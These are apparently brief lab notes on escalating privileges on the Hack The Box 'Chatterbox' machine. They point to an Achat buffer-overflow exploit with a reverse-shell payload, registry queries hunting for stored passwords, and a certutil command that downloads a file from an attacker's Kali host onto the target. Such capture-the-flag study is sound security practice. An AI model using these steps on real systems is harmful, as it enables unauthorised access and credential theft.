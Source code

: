 > run & get root access




# Escalation Path: Passwords and Port Forwarding



## chatterbox - hack-the-box
Achat Exploit - https://www.exploit-db.com/exploits/36025

Achat Exploit (Metasploit) - https://www.rapid7.com/db/modules/exploit/windows/misc/achat_bof

We can modify the payload to shell_reverse_tcp and add lhost, lport and set new target ip

Fire the msfvenom again after the modifications and change the payload:
```
- open a listener = netcat
- run the exploit
```

### Enum
```powershell
systeminfo
net users
net user <user>
ipconfig
netstat -ano
```

### Hunting passwords
```powershell
reg query HKLM /f password /t REG_SZ /s
```

If a password shows here, we can copy the register path of the file to show more info:
```powershell
ref query <reg path of the pwd found>
```

> Got username and a password

Here we need to think the available options:
```
- is ssh open?
- is smb available? so we can use psexec attack?
- perhaps password reuse?
```

### Port Forwarding
Plink Download - https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html

Download plink with the same version of your target

Send the file to the target:
```
# open a python server
# receive the file

certutil -urlcache -f http://<kali ip>/<file> <output name>
```
